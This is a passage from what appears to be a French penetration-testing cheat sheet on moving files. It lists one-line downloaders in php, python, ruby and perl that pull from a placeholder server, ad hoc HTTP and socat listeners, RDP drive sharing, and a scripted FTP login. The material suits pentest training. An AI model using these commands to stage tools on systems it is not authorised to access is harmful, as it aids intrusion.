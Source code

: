 ```sh
axel -a -n 20 -o output http://taget/file.pdf
```

php

```sh
php -r '$file = file_get_contents("http://SERVER/file.ext"); file_put_contents("output_file.ext",$file);'
```

python

```sh
import urllib.request
urllib.request.urlretrieve("http://SERVER/file.ext", "output_file.ext")
```

ruby

```sh
ruby -e 'require "net/http"; File.write("output_file.ext", Net::HTTP.get(URI.parse("http://SERVER/file.ext")))'
```

perl

```sh
perl -e 'use LWP::Simple; getstore("http://SERVER/file.ext", "output_file.ext");'
```

## Méthodes de transfert de fichiers

ruby

```sh 
ruby -run -ehttpd . -p8080
```

socat

```c
socat TCP-LISTEN:8080,reuseaddr,fork
```

**RDP**

rdesktop

```sh
rdesktop 10.10.10.132 -r disk:linux='/home/user/rdesktop/files'
```

```c
[cmd] \\tsclient\linux\file.exe
```

xfreerdp

```c
xfreerdp /v:10.10.x.x /u:user /p:password /cert:ignore +clipboard /dynamic-resolution /drive:LOCAL_DIRECTORY,SHARE_NAME
```

Acceder a un partager  RDP

```c
[cmd] \\tsclient\SHARE_NAME\file.exe
```

## Transferts de fichiers protégés

pyftpdlib

```sh
python3 -m pyftpdlib --user=pentester --password=p4ssw0rd -w

# put this content on a ftp-script.txt file
open 10.10.10.32
pentester
p4ssw0rd

# Connect to FTP using that ftp-script.txt file
PS> ftp -s:ftp-script.txt
```